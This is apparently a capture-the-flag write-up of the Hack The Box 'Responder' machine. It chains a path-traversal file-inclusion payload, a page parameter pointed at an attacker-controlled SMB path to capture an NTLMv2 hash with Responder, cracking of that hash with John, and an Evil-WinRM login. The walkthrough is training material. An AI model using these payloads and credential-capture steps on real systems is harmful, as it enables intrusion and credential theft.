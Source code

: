 # 🧠 Responder – HTB Starting Point Write-Up  
**Author:** yvngdrac  
**Tier:** 1  
**Category:** Windows, LFI, Responder, NetNTLMv2, Password Cracking, Evil-WinRM  

---

## 🗒️ Introduction  
Windows remains the dominant OS in enterprise environments, often configured with Active Directory and legacy authentication protocols like NTLM.  
This box demonstrates how a **File Inclusion vulnerability** can be abused to capture a **NetNTLMv2 challenge** via `Responder`, then crack it using `JohnTheRipper` to gain a shell with **Evil-WinRM**.

---

## 🔍 Enumeration  

Performed an Nmap scan:

```bash
nmap -p- --min-rate 1000 -sV 10.129.187.37
```

![nmap result](./writeup-images/nmap_result.png)

Discovered:
- Port 80 (HTTP)
- Possible web app hosted

We add `unika.htb` to the `/etc/hosts` file so the browser can resolve it and send the correct `Host` header:
```
echo "10.129.187.37 unika.htb" | sudo tee -a /etc/hosts
```
Visited the site: **Unika**

![Unika site](./writeup-images/unika.png)

---

## 📤 LFI Discovery  

Found an input field that takes strings:

![String input](./writeup-images/string_input.png)

Tested for LFI using:

```
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```

![LFI string input](./writeup-images/lfi-string-input-result.png)

Confirmed inclusion leads to outbound request from server — ✅ **vulnerable to LFI**.

---

## 🧪 Responder Setup  

Started `Responder` on local machine:

```bash
sudo responder -I tun0
```

![Responder started](./writeup-images/responder-initiation.png)

Then configured the parameter to call our malicious SMB path:
```
http://unika.htb/?page=//10.10.14.17/somefile
```

![Setting page param](./writeup-images/setting-page-parameter.png)

---

## 🪝 NTLMv2 Hash Captured  

Boom — captured a **NetNTLMv2 hash** for user `admin`.

![Hash captured](./writeup-images/NetNTLMv-for-admin.png)

Saved the hash to a file: `hash.txt`

---

## 🔓 Cracking the Hash  

Used `JohnTheRipper` with the rockyou wordlist:

```bash
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

Cracked password: **badminton**

![Password cracked](./writeup-images/password_badminton.png)

---

## 🩸 Shell Access – Evil-WinRM  

Logged in using Evil-WinRM:

```bash
evil-winrm -i 10.129.187.37 -u admin -p badminton
```

![Evil-WinRM shell](./writeup-images/Evil-Winrm.png)

Listed directories and found the flag:

```bash
dir
type flag.txt
```

![Flag directory](./writeup-images/dir-flag.png)  
![Flag content](./writeup-images/flag-founded.png)

---

## 🔚 What I Learned  

- How NTLMv2 works and why it's still dangerous when combined with LFI (Local File Inclusion) 
- Using `Responder` to capture hashes  
- Cracking hashes with `john`  
- Practical use of `Evil-WinRM` to get reverse shells on Windows targets  

---

## 🧰 Tools Used  
- Nmap  
- Responder  
- JohnTheRipper  
- Evil-WinRM    


---

## ✅ Final Thoughts  

Even though this was a Starting Point machine, the attack chain reflects a **real-world vuln combo** (LFI ➝ SMB relay ➝ NTLMv2 ➝ cracked creds ➝ WinRM shell). This box reinforces how outdated configurations can still lead to pwnage 💀.

---


